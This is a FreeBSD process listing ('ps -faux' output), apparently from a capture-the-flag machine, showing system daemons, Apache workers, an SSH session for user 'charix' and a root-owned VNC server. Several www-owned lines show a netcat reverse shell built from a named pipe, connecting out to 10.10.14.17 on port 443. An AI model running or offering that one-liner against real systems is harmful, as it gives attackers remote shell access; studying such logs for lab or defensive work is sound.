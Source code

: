 ```bash
root    18   0.0  0.0      0    16  -  DL   19:54    0:00.00 [vmdaemon]
root    19   0.0  0.0      0    16  -  DL   19:54    0:00.00 [pagezero]
root    20   0.0  0.0      0    32  -  DL   19:54    0:00.04 [bufdaemon]
root    21   0.0  0.0      0    16  -  DL   19:54    0:00.01 [bufspacedaemon]
root    22   0.0  0.0      0    16  -  DL   19:54    0:00.04 [syncer]
root    23   0.0  0.0      0    16  -  DL   19:54    0:00.01 [vnlru]
root   319   0.0  0.5   9560  5052  -  Ss   19:55    0:00.15 /sbin/devd
root   390   0.0  0.2  10500  2452  -  Ss   19:55    0:00.06 /usr/sbin/syslogd -s
root   543   0.0  0.5  56320  5400  -  S    19:55    0:01.97 /usr/local/bin/vmtoolsd -c /usr/local/share/vmware-tools/tools.con
root   620   0.0  0.7  57812  7052  -  Is   19:55    0:00.00 /usr/sbin/sshd
root   625   0.0  1.1  99172 11516  -  Ss   19:56    0:00.09 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    637   0.0  1.3 101220 12776  -  I    19:57    0:00.02 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    638   0.0  1.2 101220 12072  -  I    19:57    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    639   0.0  1.2 101220 11952  -  I    19:57    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    640   0.0  1.3 101220 12788  -  I    19:57    0:00.02 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    641   0.0  1.3 101220 12812  -  I    19:57    0:00.02 /usr/local/sbin/httpd -DNOHTTPACCEPT
root   642   0.0  0.6  20636  6140  -  Ss   19:57    0:00.05 sendmail: accepting connections (sendmail)
smmsp  645   0.0  0.6  20636  5808  -  Is   19:57    0:00.00 sendmail: Queue runner@00:30:00 for /var/spool/clientmqueue (sendm
root   649   0.0  0.2  12592  2436  -  Is   19:57    0:00.01 /usr/sbin/cron -s
www    706   0.0  1.2 101220 11952  -  I    19:59    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    708   0.0  1.2 101220 11988  -  S    19:59    0:00.02 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    712   0.0  1.3 101220 12792  -  I    19:59    0:00.02 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    713   0.0  1.2 101220 12140  -  I    19:59    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    783   0.0  0.3  13180  2664  -  I    20:46    0:00.00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.
www    786   0.0  0.2   8324  1932  -  I    20:46    0:00.00 cat /tmp/f
www    787   0.0  0.3  13180  2680  -  I    20:46    0:00.00 /bin/sh -i
www    788   0.0  0.2  10928  2000  -  I    20:46    0:00.00 nc 10.10.14.17 443
root   807   0.0  0.8  85228  7840  -  Is   20:56    0:00.01 sshd: charix [priv] (sshd)
charix 810   0.0  0.8  85228  7872  -  S    20:56    0:00.01 sshd: charix@pts/1 (sshd)
root   529   0.0  0.9  23620  8868 v0- I    19:55    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth 
root   540   0.0  0.7  67220  7056 v0- I    19:55    0:00.01 xterm -geometry 80x24+10+10 -ls -title X Desktop
root   541   0.0  0.5  37620  5312 v0- I    19:55    0:00.00 twm
root   696   0.0  0.2  10484  2076 v0  Is+  19:57    0:00.00 /usr/libexec/getty Pc ttyv0
root   697   0.0  0.2  10484  2076 v1  Is+  19:57    0:00.00 /usr/libexec/getty Pc ttyv1
root   698   0.0  0.2  10484  2076 v2  Is+  19:57    0:00.00 /usr/libexec/getty Pc ttyv2
root   699   0.0  0.2  10484  2076 v3  Is+  19:57    0:00.00 /usr/libexec/getty Pc ttyv3
root   700   0.0  0.2  10484  2076 v4  Is+  19:57    0:00.00 /usr/libexec/getty Pc ttyv4
root   701   0.0  0.2  10484  2076 v5  Is+  19:57    0:00.00 /usr/libexec/getty Pc ttyv5
root   702   0.0  0.2  10484  2076 v6  Is+  19:57    0:00.00 /usr/libexec/getty Pc ttyv6
root   703   0.0  0.2  10484  2076 v7  Is+  19:57    0:00.00 /usr/libexec/getty Pc ttyv7
root   617   0.0  0.4  19660  3616  0  Is+  19:55    0:00.00 -csh (csh)
charix 811   0.0  0.4  19660  3796  1  Ss   20:56    0:00.01 -csh (csh)
charix 837   0.0  0.3  21208  2660  1  R+   21:07    0:00.00 ps -faux
```
